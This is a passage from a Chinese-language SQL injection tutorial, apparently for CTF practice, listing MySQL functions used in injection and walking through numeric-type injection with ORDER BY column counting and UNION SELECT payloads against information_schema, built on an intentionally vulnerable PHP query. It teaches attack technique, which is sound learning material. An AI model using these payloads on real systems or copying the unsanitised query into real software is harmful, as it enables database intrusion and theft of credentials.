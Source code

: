 常用参数：

- `user()`：当前数据库用户
- `database()`：当前数据库名
- `version()`：当前使用的数据库版本
- `@@datadir`：数据库存储数据路径
- `concat()`：联合数据，用于联合两条数据结果。如 `concat(username,0x3a,password)`
- `group_concat()`：和 `concat()` 类似，如 `group_concat(DISTINCT+user,0x3a,password)`，用于把多条数据一次注入出来
- `concat_ws()`：用法类似
- `hex()` 和 `unhex()`：用于 hex 编码解码
- `ASCII()`：返回字符的 ASCII 码值
- `CHAR()`：把整数转换为对应的字符
- `load_file()`：以文本方式读取文件，在 Windows 中，路径设置为 `\\`
- `select xxoo into outfile '路径'`：权限较高时可直接写文件

### 基础注入类型

#### 数字型注入

我们开局举的例子就是一个很典型的数字型注入。

```php
$sql = "SELECT username,password FROM users WHERE id = ".$_GET["id"];
```

我们可用理解为两个部分 原有语句 `SELECT username,password FROM users WHERE id = `和用户输入部分`$_GET["id"]`。

前面我们说到，这种语句一般用于用户输入id来索引查询，所以预期的输入都是数字，所以直接采用的直接拼接的方式，以数字的方式进行查询。

然而，用户的输入因为没有过滤的缘故，不管输入什么都会直接拼接到后面，所以我们可用用下面的步骤逐步得到数据库信息：

- 使用 `Order by` 确定列数，方便后续注入。

  ```SQL
  id = 1 Order by 1;
  id = 1 Order by 2;
  id = 1 Order by 3; # 报错 确定列数为 2 
  ```

- 使用联合查询 `union` 基于 `information_schema` 拿到数据库名

  ```SQL
  1 union SELECT 1,schema_name FROM information_schema.schemata;
  # or
  1 union SELECT schema_name,2 FROM information_schema.schemata;
  # 注意这里的 schema_name 一定要放在会显示的列名上面 比如password不显示 但是username显示 那么就用第二种。
  # 此时后台执行为:
  SELECT username,password FROM users WHERE id = 1 union SELECT 1,schema_name FROM information_schema.schemata;
  ```

​		![image-20230426195745130](https://nssctf.wdf.ink//img/WDTJ/202304261957162.png)

​		也可以把1换成其他的，比如`database()` 这样我们可以知道我们当前在哪个数据库

​		![image-20230426195952638](https://nssctf.wdf.ink//img/WDTJ/202304261959665.png)

- 下面就是用联合查询得到数据库里面的表名，一般步骤我们都是先获取当前库 ( `database()` ) 的表，再去看其他库的。
